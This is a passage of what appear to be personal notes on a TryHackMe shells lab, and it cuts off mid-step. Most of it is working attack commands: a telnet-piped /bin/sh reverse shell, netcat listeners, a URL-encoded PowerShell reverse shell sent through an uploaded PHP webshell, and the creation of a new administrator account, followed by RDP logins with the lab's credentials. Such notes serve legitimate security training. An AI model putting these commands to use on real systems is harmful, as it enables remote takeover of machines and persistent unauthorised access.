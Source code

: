 	searching for the exploit file
	![[Pasted image 20240820234148.png]]

	changing permission and run the exploit file 
	`sudo chmod +x /path/to/reverse.elf`  --> `./reverse.elf`
	

	 **Telnet**
	In Attacker machine start two listeners: 
	- nc -nvlp 8080
	- nc -nvlp 8081 
  
	In Victime machine run below command: 
	- telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081

5) **Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.**
	![[Pasted image 20240821010756.png]]
	
	setting nc listener -> nc -nvlp 1234
	
	changing the url to acces php shell :
	
	
	 machineIP/uploads/php-reverse-shell.php?cmd=
	`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`

6) **The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.**

	To login using RDP:
	`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.189.136 /u:Administrator /p:'TryH4ckM3!'`
	
	![[Pasted image 20240821011814.png]]

	create new users and add privileges into the windows machine
	
	`net user <username> <password> /add`
	`net localgroup administrators <username> /add`

	![[Pasted image 20240821011938.png]]

	logging again via RPD using the new privileged credentials:
	`xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.189.136 /u:nbyte /p:'nbyte'`

7)  **Socat and netcat to obtain reverse and bind shells on the Windows Target.**

	- socat:
		`socat TCP-L:<port> -`
		